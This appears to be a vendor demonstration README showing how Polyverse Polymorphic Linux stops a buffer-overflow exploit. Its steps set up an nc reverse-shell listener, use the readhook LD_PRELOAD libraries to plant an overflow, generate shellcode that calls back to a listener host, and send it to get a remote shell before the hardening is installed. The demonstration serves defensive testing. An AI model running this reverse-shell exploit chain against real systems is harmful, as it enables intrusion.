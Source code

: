 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run a simple nc echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
    docker run --rm --name echo -it -p 8080:8080 alpine:3.7 sh
### (2) We'll need curl and wget
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/fullhook.so
### (2) Start nc with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" nc -l -p 8080 -e /bin/cat
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
### (2) Re-start nc with minimal readhook in front of libc
    LD_PRELOAD=/tmp/basehook.so nc -l -p 8080 -e /bin/cat
### (3) Send shell-code to the OVERFLOW for a reverse shell
    echo $shellCode | nc localhost 8080
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
    LD_PRELOAD=/tmp/basehook.so nc -l -p 8080 -e /bin/cat
### (3) Try the shellCode with Polymorphic Linux
    echo $shellCode | nc localhost 8080
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally (e.g. Segmentation fault)
